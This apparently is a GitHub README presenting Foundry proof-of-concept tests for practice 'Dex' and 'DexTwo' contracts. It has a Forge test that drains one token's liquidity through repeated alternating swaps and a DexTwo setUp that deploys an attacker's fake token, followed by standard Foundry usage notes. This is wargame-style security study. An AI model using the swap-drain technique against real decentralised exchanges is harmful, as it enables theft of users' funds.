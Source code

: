 # PoC Dex
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity of one of the tokens, token1 or token2. 

## Actors:
### Attacker - The attacker make some series of swaps to the DEX to drain the liquidity
### Protocol - The protocol is a DEX that allows two different types of token to be swapped.

### Test Case:

```
function test_multiple_swaps() public {
        vm.startPrank(attacker);
        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        uint256 token1Expected = token1.balanceOf(address(dex));
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);

        uint256 token1Balance = token1.balanceOf(attacker);
        uint256 token1ExpectedAfter = token1.balanceOf(address(dex));

        assert(token1Balance == token1Expected + 10);
        assertEq(token1ExpectedAfter, 0);
    }
```

# PoC DexTwo
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity of the two token, token1 & token2. 

## Actors:
### Attacker - The attacker make some series of swaps to the DEX to drain the liquidity of the two tokens
### Protocol - The protocol is a DEX that allows two different types of token to be swapped.

### Test Case:

```
function setUp() public {
        vm.startPrank(owner);
        dex = new DexTwo(owner);

        token1 = new SwappableTokenTwo(address(dex), "Token1", "TK1", 110);
        token2 = new SwappableTokenTwo(address(dex), "Token2", "TK2", 110);

        dex.setTokens(address(token1), address(token2));
        console.log("Owner Token1 Balance before transfer:", token1.balanceOf(owner));

        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        dex.add_liquidity(address(token1), 100);
        dex.add_liquidity(address(token2), 100);
        console.log("Owner Token1 Balance After transfer:", token1.balanceOf(owner));

        // Deploy FakeToken
        fakeToken = new FakeToken(owner, "fakeToken", "MTK", 500);
        fakeToken.transfer(attacker, 400);
    }

```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
